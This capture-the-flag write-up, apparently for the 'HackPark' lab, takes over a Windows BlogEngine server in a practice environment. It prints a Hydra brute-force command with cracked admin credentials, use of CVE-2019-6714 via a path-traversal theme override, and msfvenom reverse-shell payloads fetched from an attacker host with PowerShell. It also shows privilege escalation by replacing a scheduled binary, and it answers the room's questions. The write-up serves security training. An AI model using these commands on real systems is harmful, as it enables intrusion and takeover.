HackPark

##### Written: 28/09/2021

##### IP Address: 10.10.192.114

<br>

### Deploy the machine and access its web server.

Done.

---

### Whats the name of the clown displayed on the homepage?

First, let's run an **nmap** scan on our target machine to find out what services are running on it. The room explicitly states that the machine does not respond to Ping (ICMP). Hence, our nmap scan has to be run with the **-Pn** tag, which skips host discovery completely. This is fine as we already know that the machine is alive and hence, do not need to ping it.

```
sudo nmap -sC -sV -Pn -vv 10.10.192.114
```

**Results:**



<br>

From the results, we can see that there are only **2** ports open:

* Port **80**: **HTTP**
* Port **3389**: **Windows Terminal Server**

<br>

Let's visit that HTTP website. Navigating to the address, we are brought to the following page:



<br>

I know the name of the clown by memory as I've watched the 'IT' movies, but a simple Google reverse image search will help those who do not know his name.

Name of clown: **pennywise**

---

### What request type is the Windows website login form using?

Looking through the website, I managed to find a login page to a **blogEngine.net** service.



We can use **Hydra** to brute-force account credentials which will grant us access into the service. Before crafting our Hydra command, we need to first gather some important information regarding the request made when a login is attempted.

<br>

We can use Firefox's **Network Inspector** (ctrl-shift-I > Network) to look at what is submitted when making a login request. With the Network Inspector up, let's try logging in using random credentials:

 

<br>

Here, we can see that the login form is using a **POST** request.

---

### Guess a username, choose a password wordlist and gain credentials to a user account! 

Now, let's gather the other essential information that we will pass to Hydra for our attack.

Firstly, since the request is a POST request, we will be using the **http-post-form** type for our Hydra attack.

Next, looking at the request headers, the POST request is being made to: **http://10.10.192.114/Account/login.aspx?ReturnURL=/admin/**

Let's also look at the form data that is being sent along with the request:



We can see that there are **5** parameters that are being sent. What's important to note is that as there are special characters within the values of these parameters, they need to be **url-encoded**. Hence, we also need to make sure that the values we copy over to our Hydra command is url-encoded as well. Fortunately for us, we copy the encoded form data from the **Request payload** section in the Network Inspector (as seen in the above screenshot).

The entire **request payload** is: 

\__VIEWSTATE=MKRvqUkiUPx4rEjlq%2BwwmNIZPJ8tvgk8U%2FQGcDDZ3t2JFNJd9loB9fXSP24baUDtLJrg3tnLInLjTQXV0%2BNYh%2F41YVq6fSLo4XHPEUoDJzvOYHmeGVn1C0Umi6Qf68qMrlYUKyXWaJ%2Bh7icteIu1VJ%2FDzvgsC0Sn5oiFSfstok5FyHI3nWYJl52HjyLDaeJxC6n5DITABkDBTFqogi4YNbZ4yEKd5S2qFZY4ba6ivbbMvEhgHjvC3NVX%2BSxk4Ozabj081Xg4mL3Yly%2BbciRiu4NT7sJoeiUsalsgLaRewFtzQ1xh0BdesnMyMMXNlx0IEIJqVJXACdP1CkyKFFmDz8Ujcvzx9rJ0%2FNQ40BT%2FbSOwBUZq&__EVENTVALIDATION=eIBfpye%2BDZdU3hsZJs7klfQiqpg3fs%2FCLNhHoJfO096drctbeSDyFL1nrBOIRo6GytU5rpj%2FSNc45mwbCKbJsAoqmcpMsN2UkTAK1VVCR9ZuhJxRSyIMQKCcUow9NojhsDjoKczqpQleQfgdiO81x4J9TXhqZ2VbesDaJ5uijHElLDwX&ctl00%24MainContent%24LoginUser%24UserName=test&ctl00%24MainContent%24LoginUser%24Password=test&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in

<br>


In our Hydra command, we just have to replace the value of  **'test'** for our **ctl00$MainContent$LoginUser$UserName** and **ctl00$MainContent$LoginUser$Password** parameters to be **^USER^** and **^PASS^** respectively.

<br>

Finally, we also need to know what error message pops up when we try to login with invalid credentials. This is so that Hydra knows how to distinguish between a successful and a failed attempt.



We can see that the error message is '**Login failed**'.

<br>

With that, we have all of the information we require to start our brute-forcing attack. We will be using the classic **Rockyou.txt** file for our password wordlist. We will also try the attack with the username: **admin**, as that is one of the most common administrator usernames.

Our command looks like this:

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.192.114 http-post-form "/Account/login.aspx?ReturnURL=/admin/:__VIEWSTATE=axRjnB%2B1TmS8i1Hwbx8X9Xjvkk8wBd8J2pvK88DXA1%2BZa0aL%2BNFovmHU5vlSPLh5QIflBnyN23ZLRco2PqAtCw%2BcPpaOUNQM%2FNVNMmwYco0jTW40crI4kC9bB64iXGbapeGPZ%2BFrrBgjOutqxFlRXuawgg5seMdK1p83%2BH8RIbhBBJrl&__EVENTVALIDATION=3WZp4eLcekUHr%2BcdriGax4x02RuYq8vHQ8dwX9UJWrcbY06qff%2FXQV9U%2BcvUrwOVth7j%2B9sd953X20thlPOTXgxZmjeGKdIzPvBAWda%2BQp0vv8WFGlEU9JGYfCnoNExgPIt058Ba4chb3r%2BmbH5qPoh0O1plVUwgXLbDMbthmRrHj%2F%2FN&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed" -vv
```

<br>



After a few minutes, Hydra managed to find the password for the administrator account! 

Credentials: **admin:1qaz2wsx**

---

### Now you have logged into the website, are you able to identify the version of the BlogEngine?

Let's go ahead and log into the BlogEngine service with our newly-found credentials.

Under the **About** section, we can find the version number of the service.



Version number: **3.3.6.0**

---

### Use the exploit database archive to find an exploit to gain a reverse shell on this system.

#### What is the CVE?

We can simply search for '**BlogEngine**' in **exploit-db** (https://www.exploit-db.com/) to find an exploit that allows us to gain Remote Code execution on the web server.





<br>

CVE of exploit: **2019-6714**

---

### Using the public exploit, gain initial access to the server.

#### Who is the webserver running as?

From the exploit:

*First, we set the TcpClient address and port within the method below to our attack host, who has a reverse tcp listener waiting for a connection. Next, we upload this file through the file manager.  In the current (3.3.6) version of BlogEngine, this is done by editing a post and clicking on the icon that looks like an open file in the toolbar.  Note that this file must be uploaded as PostView.ascx. Once uploaded, the file will be in the /App_Data/files directory off of the document root. The admin page that allows upload is: http://10.10.10.10/admin/app/editor/editpost.cshtml*

*Finally, the vulnerability is triggered by accessing the base URL for the  blog with a theme override specified like so: http://10.10.10.10/?theme=../../App_Data/files*

<br>

Hence, following the exploit steps, we first copy the exploit code over to our local machine into a file named **PostView.ascx** and make sure to change the IP address and Port number accordingly. Next, we upload the file to the web server at **/admin/app/editor/editpost.cshtml**, as shown below:



<br>

We then set up a Netcat listener listening on the port that we indicated in our exploit script.

Finally, we trigger the vulnerability by accessing the base URL for the blog with the theme override specified like so:

http://10.10.192.114/?theme=../../App_Data/files

<br>



And we're in! :smile:

The webserver is running as **iis apppool\blog**.

---

### Our netcat session is a little unstable, so lets generate another reverse shell using msfvenom.

To generate the reverse shell for a **meterpreter** session, we can use **msfvenom** with the following command:

```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 -e x86/shikata_ga_nai LHOST=YOUR_IP_HERE LPORT=4445 -f exe -o shell.exe
```

<br>

Next, we run a Python HTTP server on our local machine so that we can grab this executable file later on.

On our target machine, we first navigate to the **c:\Windows\Temp** directory as we have write permissions there. We then use **powershell** and **wget** to download the reverse shell from our local machine.

```
powershell -c wget http://YOUR_IP_HERE:8000/shell.exe
```

<br>

With the reverse shell successfully downloaded onto our target machine, we boot up **msfconsole** and use the **/multi/handler** module. We then set the appropriate options: **LHOST**, **LPORT** and **PAYLOAD**.

With our TCP listener running on Metasploit, we just have to execute the reverse shell on our target machine using ```.\shell.exe```.



And we have a meterpreter shell open!

---

### What is the OS version of this windows machine?

We can use the ```sysinfo``` command in Meterpreter to find out the OS version, along with other information.



OS Version: **Windows 2012 R2 (6.3 Build 9600)**

---

### Further enumerate the machine.

#### What is the name of the abnormal service running?

The room suggests using the **windows-exploit-suggestor** script (https://github.com/AonCyberLabs/Windows-Exploit-Suggester) to conduct some automated enumeration of the system. However, from its Github page, I realized that this script was very old and was not being maintained by its creators. Users also faced numerous issues when trying to run the script with Python3, amongst other issues. Hence, to not waste time, I've decided to use **WinPeas** (https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS) instead.

<br>

First, we download a copy of the **winPEASx86.exe** file onto our local machine. Next, we can transfer it to our target machine through Meterpreter (do this in the **\temp** directory on the target machine to ensure we have the appropriate write permissions). We can use the ```upload``` command to do so.

```
upload winPEASx86.exe
```

With the upload done, we can then execute the file with the ```execute``` command.

```
execute -i -f winPEASx86.exe
```

*(**-i** is used to interact with the process that is created after running the file, **-f** is used to indicate which file to run)*

 <br>

Looking through the results of WinPEAS, I noticed an interesting non-Microsoft service that is running on the machine.



Name of abnormal service: **WindowsScheduler**

---

### What is the name of the binary you're supposed to exploit? 

Let's first visit the **C:\Program Files (x86)\SystemScheduler** directory.

In this directory, there are a bunch of files, including some log files. There are also numerous executable files, such as a **Message.exe** and **RunNow.exe**. Perhaps these files could be of use later on.



I looked through all of the text files within the directory, but none of them yielded anything of use. 

<br>

Next, let's go into the **Events** directory.



In the **Events** directory, we can see a log file called **20198415519.INI_LOG.txt**.



Looking inside, we can see that it is filled with log messages of the **Message.exe** file being executed by the Administrator account. Hence, it seems as if the Message.exe file is being periodically run with root permissions. This is great as that means that we can actually replace this file with a reverse shell that we create. Our reverse shell will then be executed by the Administrator account, hence granting us access into the machine with root permissions. 


From our WinPEAS results earlier on, we also know that we can indeed replace this Message.exe file as the **C:\Program Files (x86)\SystemScheduler** directory is **world writable**!

<br>

Name of binary to exploit: **Message.exe**

---

### What is the user flag (on Jeffs Desktop)?

On our local machine, let's go ahead and use **msfvenom** again to craft a reverse shell which uses a different port. We also name the reverse shell file as **Message.exe**.

```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 -e x86/shikata_ga_nai LHOST=YOUR_IP_HERE LPORT=4446 -f exe -o Message.exe
```

<br>

Next, we use our current Meterpreter session to upload our malicious **Message.exe** file onto our target machine. Make sure to upload the file to the  **C:\Program Files (x86)\SystemScheduler** directory, which will overwrite the existing Message.exe file.



Once the file is uploaded, we background our current Meterpreter session and run another TCP listener, this time listening on the port specified in our new reverse shell script.

<br>

After a few seconds, our malicious Message.exe file is executed and we gain access with Administrator permissions!





With that, we can access **Jeff's Desktop** and obtain the user flag.



---

### What is the root flag?

The root flag can be found in the **Desktop** of the **Administrator** home directory.



---

### Using winPeas, what was the Original Install time? (This is date and time)

*This section of the room is completed without the use of Metasploit.*

<br>

First, we generate a new reverse shell payload using **msfvenom**.

```
msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP_HERE LPORT=9999 -e x86/shikata_ga_nai -f exe -o shell2.exe
```

Next, we gain initial access into the machine again using the BlogEngine exploit. From there, we repeat the same steps to get the **shell2.exe** reverse shell script onto the target machine. 

Next, instead of using Metasploit, we shall set up a basic **Netcat** listener instead. Once everything is set up, we can run the reverse shell with ```.\shell2.exe```.



And we're in! 

<br>

Now, we just have to transfer the **winPEASx86.exe** in the same manner, then run it.

Unfortunately, I was unable to find the **Original Install Time** in WinPEAS. After looking through the results many times, I decided to forgo using WinPEAS and use the ```systeminfo``` command instead.



<br>

Original Install Time: **8/3/2019, 10:43:23 AM**

